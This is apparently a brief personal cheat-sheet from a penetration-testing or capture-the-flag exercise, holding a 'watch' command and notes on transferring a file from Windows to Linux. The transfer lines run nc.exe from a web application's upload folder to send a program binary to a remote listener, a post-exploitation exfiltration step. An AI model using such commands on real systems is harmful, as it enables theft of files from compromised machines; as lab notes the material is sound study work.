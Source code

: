 

## Watch
```
watch -n 0.5 -d ls -la
```

## Transfer file windows ---> linux
```
win    : C:\xampp\htdocs\gym\upload\nc.exe 10.10.15.130 5555 < CloudMe_1112.exe
linux  : nc -nlvp 5555 > CloudMe_1112.exe
```
